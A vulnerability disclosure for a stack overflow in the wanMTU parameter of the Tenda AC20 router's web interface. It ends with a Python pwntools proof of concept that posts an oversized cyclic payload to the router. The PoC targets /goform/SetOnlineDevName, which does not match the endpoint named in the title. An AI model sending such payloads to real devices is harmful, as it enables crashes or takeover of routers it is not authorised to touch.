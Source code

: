 # Tenda AC20_V16.03.08.05 has a stack overflow in /goform/fromAdvSetMacMtuWan.

## Basic Information

Vulnerability vendor: Shenzhen Jixiang Tengda Technology Co., Ltd.

Vulnerability level: High risk

Vendor website: https://www.tenda.com.cn

Affected object type: Network equipment

Affected product: Tenda AC20

Affected product version: AC20_V16.03.08.05

Is it a product component vulnerability: No

## 1. Vulnerability Overview

The Tenda AC20 is a wireless router manufactured by Tenda, a Chinese company. The Tenda AC20 contains a buffer overflow vulnerability stemming from the failure to properly validate the length of input data in the parameter wanMTU in the file /goform/fromAdvSetMacMtuWan. An attacker could exploit this vulnerability to execute arbitrary code on the system.

## 2. Details of the vulnerability

ida analysis of the .bin/httpd binary file, romAdvSetMacMtuWan is primarily responsible for obtaining the number of WAN ports from wans.flag and executing the sub_44B6D4 function on each WAN port.

![image-20250825154029495](https://cdn.jsdelivr.net/gh/Thir0th/blog-image/image-20250825154029495.png)

The wanMTU parameter is retrieved and stored in nptr using the strcpy function. The strcpy function does not check the size of the target buffer when processing the wanMTU parameter. If the copied data exceeds the buffer's capacity, a buffer overflow may occur. An attacker could easily execute a denial-of-service attack or remote code execution using carefully crafted overflow data.

![image-20250825154056858](https://cdn.jsdelivr.net/gh/Thir0th/blog-image/image-20250825154056858.png)

## Poc

```
from pwn import *
import requests

payload = cyclic(0x500)
url = "http://192.168.87.135/goform/SetOnlineDevName"

cookie = {"Cookie":"password=12345"}

data = {"SET": "erger",
    "wanMTU": payload,
    "wanSpeed": "aa",
    "wanSpeed2": "300",
    "cloneType": "t",
    "cloneType2": "tt",
    "mac": "192.168.2.3",
    "mac2": "192.168.3.4",
    "serviceName":"admin",
    "serviceName2":"admin2",
    "serverName":"rr",
    "serverName2":"dd"}



response = requests.post(url, cookies=cookie, data=data)
response = requests.post(url, cookies=cookie, data=data)
response = requests.post(url, cookies=cookie, data=data)
print(response.text)

```


